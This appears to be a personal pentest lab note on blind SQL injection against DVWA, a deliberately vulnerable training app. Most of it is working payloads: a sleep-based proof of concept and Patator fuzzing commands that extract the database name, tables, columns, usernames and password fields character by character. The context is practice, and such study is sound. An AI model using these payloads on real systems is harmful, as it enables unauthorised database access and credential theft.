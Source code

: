 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

LOW

[[Patator]]

http://dvwa.local/vulnerabilities/sqli_blind/?id=1

POC:
```
1' AND sleep (10)-- - 
```

Find the length of the database:
```bash - kali
python3 patator.py http_fuzz url="http://dvwa.local/vulnerabilities/sqli_blind/?id=1' and length(database())='RANGE0&Submit=Submit#" method="GET" header="Cookie: PHPSESSID=vn5pl1pirs5h9heugved2tjrsg; security=low" 0="int:1-10" -x ignore:fgrep="User ID is MISSING from the database."
```

Retrieve the name of the database:
```bash - kali
python3 patator.py http_fuzz url="http://dvwa.local/vulnerabilities/sqli_blind/?id=1' and ascii(substring(database(),RANGE0,1))='RANGE1&Submit=Submit#" method="GET" header="Cookie: PHPSESSID=vn5pl1pirs5h9heugved2tjrsg; security=low" 0="int:1-4" 1="int:1-256" -x ignore:fgrep="User ID is MISSING from the database."
```

```bash - kali
cat patatorASCII | awk '{print $9}' | cut -d : -f 3 | tr -d " \t\n\r" 
```

Paste in values here, may not be in correct order!
https://onlineasciitools.com/convert-decimal-to-ascii

Find number of databases:
```bash - kali
python3 patator.py http_fuzz url="http://dvwa.local/vulnerabilities/sqli_blind/?id=1' and (SELECT count(schema_name) from information_schema.schemata)='RANGE0&Submit=Submit#" method="GET" header="Cookie: PHPSESSID=vn5pl1pirs5h9heugved2tjrsg; security=low" 0="int:1-10" -x ignore:fgrep="User ID is MISSING from the database."
```

Find names of databases:
```bash - kali
python3 patator.py http_fuzz url="http://dvwa.local/vulnerabilities/sqli_blind/?id=1' and ascii(substring((SELECT schema_name from information_schema.schemata LIMIT 1 OFFSET RANGE0),RANGE1,1))='RANGE2&Submit=Submit#" method="GET" header="Cookie: PHPSESSID=vn5pl1pirs5h9heugved2tjrsg; security=low" 0="int:0-1" 1="int:1-20" 2="int:1-256" -x ignore:fgrep="User ID is MISSING from the database."
```

```bash - kali
cat patatorASCII | awk '{print $9}' | cut -d : -f 3 | tr -d " \t\n\r" 
```

Paste in values here, may not be in correct order!
https://onlineasciitools.com/convert-decimal-to-ascii

`information_schema` and `dvwa`

Enumerate dvwa tables:
```bash - kali
python3 patator.py http_fuzz url="http://dvwa.local/vulnerabilities/sqli_blind/?id=1' and (SELECT count(table_name) from information_schema.tables where table_schema='dvwa')='RANGE0&Submit=Submit#" method="GET" header="Cookie: PHPSESSID=vn5pl1pirs5h9heugved2tjrsg; security=low" 0="int:1-10" -x ignore:fgrep="User ID is MISSING from the database."
```

Enumerate the table names:
```bash - kali
python3 patator.py http_fuzz url="http://dvwa.local/vulnerabilities/sqli_blind/?id=1' and ascii(substring((SELECT table_name from information_schema.tables where table_schema='dvwa' LIMIT 1 OFFSET RANGE0),RANGE1,1))='RANGE2&Submit=Submit#" method="GET" header="Cookie: PHPSESSID=vn5pl1pirs5h9heugved2tjrsg; security=low" 0="int:0-1" 1="int:1-20" 2="int:1-256" -x ignore:fgrep="User ID is MISSING from the database."
```


```bash - kali
cat patatorASCII | awk '{print $9}' | cut -d : -f 3 | tr -d " \t\n\r" 
```

Paste in values here, may not be in correct order!
https://onlineasciitools.com/convert-decimal-to-ascii

`guestbook` and `users`

Enumerate `users` table:
```bash - kali
python3 patator.py http_fuzz url="http://dvwa.local/vulnerabilities/sqli_blind/?id=1' and (SELECT count(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users')='RANGE0&Submit=Submit#" method="GET" header="Cookie: PHPSESSID=vn5pl1pirs5h9heugved2tjrsg; security=low" 0="int:1-10" -x ignore:fgrep="User ID is MISSING from the database."
```

There are 8 columns, enumerate the names of the columns:
```bash - kali
python3 patator.py http_fuzz url="http://dvwa.local/vulnerabilities/sqli_blind/?id=1' and ascii(substring((SELECT column_name from information_schema.columns where table_schema='dvwa' and table_name='users' LIMIT 1 OFFSET RANGE0),RANGE1,1))='RANGE2&Submit=Submit#" method="GET" header="Cookie: PHPSESSID=vn5pl1pirs5h9heugved2tjrsg; security=low" 0="int:0-7" 1="int:1-20" 2="int:1-256" -x ignore:fgrep="User ID is MISSING from the database."
```

```bash - kali
cat patatorASCII | awk '{print $9}' | cut -d : -f 3 | tr -d " \t\n\r" 
```

Paste in values here, may not be in correct order!
https://onlineasciitools.com/convert-decimal-to-ascii

`user_id`, `first_name`, `last_name`, `user`, `password`, `avatar`, `last_login` and `failed_login`

Enumerate `first_name` and `users`
```bash - kali
python3 patator.py http_fuzz url="http://dvwa.local/vulnerabilities/sqli_blind/?id=1' and (SELECT count(first_name) from dvwa.users)='RANGE0&Submit=Submit#" method="GET" header="Cookie: PHPSESSID=vn5pl1pirs5h9heugved2tjrsg; security=low" 0="int:1-10" -x ignore:fgrep="User ID is MISSING from the database."
```

Enumerate first_name:
```bash - kali
python3 patator.py http_fuzz url="http://dvwa.local/vulnerabilities/sqli_blind/?id=1' and ascii(substring((SELECT first_name from dvwa.users LIMIT 1 OFFSET RANGE0),RANGE1,1))='RANGE2&Submit=Submit#" method="GET" header="Cookie: PHPSESSID=vn5pl1pirs5h9heugved2tjrsg; security=low" 0="int:0-7" 1="int:1-20" 2="int:1-256" -x ignore:fgrep="User ID is MISSING from the database."
```

```bash - kali
cat patatorASCII | awk '{print $9}' | cut -d : -f 3 | tr -d " \t\n\r" 
```

Paste in values here, may not be in correct order!
https://onlineasciitools.com/convert-decimal-to-ascii

`admin`, `Gordon`, `Hack`, `Palbo`, `Bob`

Enumerate users:
```bash - kali
python3 patator.py http_fuzz url="http://dvwa.local/vulnerabilities/sqli_blind/?id=1' and ascii(substring((SELECT user from dvwa.users LIMIT 1 OFFSET RANGE0),RANGE1,1))='RANGE2&Submit=Submit#" method="GET" header="Cookie: PHPSESSID=vn5pl1pirs5h9heugved2tjrsg; security=low" 0="int:0-7" 1="int:1-20" 2="int:1-256" -x ignore:fgrep="User ID is MISSING from the database."
```

```bash - kali
cat patatorASCII | awk '{print $9}' | cut -d : -f 3 | tr -d " \t\n\r" 
```

Paste in values here, may not be in correct order!
https://onlineasciitools.com/convert-decimal-to-ascii

Enumerate passwords:
```bash - kali
python3 patator.py http_fuzz url="http://dvwa.local/vulnerabilities/sqli_blind/?id=1' and ascii(substring((SELECT password from dvwa.users LIMIT 1 OFFSET RANGE0),RANGE1,1))='RANGE2&Submit=Submit#" method="GET" header="Cookie: PHPSESSID=vn5pl1pirs5h9heugved2tjrsg; security=low" 0="int:0-7" 1="int:1-20" 2="int:1-256" -x ignore:fgrep="User ID is MISSING from the database."
```

```bash - kali
cat patatorASCII | awk '{print $9}' | cut -d : -f 3 | tr -d " \t\n\r" 
```

Paste in values here, may not be in correct order!
https://onlineasciitools.com/convert-decimal-to-ascii

MEDIUM

Same as above, however, the `'` needs to be removed from all payloads, such as:

POC:
```
1 AND sleep (10)-- - 
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
